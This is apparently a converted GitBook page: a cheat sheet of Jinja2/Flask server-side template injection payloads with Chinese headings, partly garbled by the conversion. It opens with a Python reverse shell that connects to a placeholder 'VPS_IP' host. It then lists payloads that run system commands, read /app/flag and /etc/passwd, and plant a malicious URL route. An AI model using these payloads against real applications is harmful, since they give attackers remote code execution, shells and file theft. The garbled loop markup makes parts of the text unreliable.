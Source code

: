 ```python

</div>

</div>

{{().__class__.__bases__[0].__subclasses__()[216].__init__.__globals__['__builtins__']['exec']('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("VPS_IP",端口));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')}}

# 命令执行_catch_warnings 

<div data-gb-custom-block data-tag="for"><div data-gb-custom-block data-tag="if" data-0='war'>{{ x.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}</div></div>

# catch_warnings 读取文件

<div data-gb-custom-block data-tag="for"><div data-gb-custom-block data-tag="if" data-0='catch_warnings'>{{ x.__init__.__globals__['__builtins__'].open('/app/flag', 'r').read() }}</div></div>

# _frozen_importlib_external.FileLoader 读取文件
 

<div data-gb-custom-block data-tag="for"></div> # <div data-gb-custom-block data-tag="for" data-0='0' data-1='0' data-2='0' data-3='0' data-4='0' data-5='0' data-6='0' data-7='0' data-8='0' data-9='0' data-10='0' data-11='0' data-12='0' data-13='0' data-14='0' data-15='0' data-16='0' data-17='0' data-18='0' data-19='0' data-20='0' data-21='0' data-22='0' data-23='0' data-24='0' data-25='0' data-26='0' data-27='0' data-28='0'>

    

<div data-gb-custom-block data-tag="if" data-0='FileLoader'>

        {{ x["get_data"](0,"/etc/passwd")}}
    

</div>

</div>

# 其他RCE
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{g.pop.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{url_for.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{lipsum.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{get_flashed_messages.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{application.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{cycler.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{joiner.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{namespace.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{url_for.__globals__.current_app.add_url_rule('/1333337',view_func=url_for.__globals__.__builtins__['__import__']('os').popen('ls').read)}}

```